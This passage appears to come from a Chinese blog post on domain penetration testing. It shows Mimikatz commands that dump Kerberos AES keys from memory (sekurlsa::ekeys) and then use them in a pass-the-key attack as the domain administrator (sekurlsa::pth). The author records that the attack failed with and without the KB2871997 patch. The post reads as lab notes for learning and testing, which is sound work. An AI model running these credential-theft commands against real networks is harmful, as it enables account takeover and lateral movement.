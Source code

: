 

```
privilege::debug      
sekurlsa::ekeys          #获取kerberos加密凭证
```




![](https://img-blog.csdnimg.cn/20200406190441956.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200406193535211.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**利用获得到的AES256或AES128进行Key攻击**



```
privilege::debug      
#使用AES-256进行Key传递攻击      
sekurlsa::pth /user:administrator /domain:xie.com /aes256:1a39fa07e4c96606b371fe12334848efc60d8b3c4253ce6e0cb1a454c7d42083      
#使用AES-128进行Key传递攻击      
sekurlsa::pth /user:administrator /domain:xie.com /aes128:4728551c859bbe351e9c11b5d959163e
```




域控未打 KB2871997 补丁前，无法使用 Key传递攻击 



![](https://img-blog.csdnimg.cn/20200406193830146.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200406193928804.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



但是当我在域控上打上 KB2871997补丁后，Ke传递攻击仍然无法使用！这里不知道为什么。



![](https://img-blog.csdnimg.cn/2020040619461731.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200406195630758.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



相关文章：[域渗透——Pass The Hash & Pass The Key](http://www.tiejiang.org/23508.html "域渗透——Pass The Hash & Pass The Key")



更新KB2871997补丁产生的影响

------------------
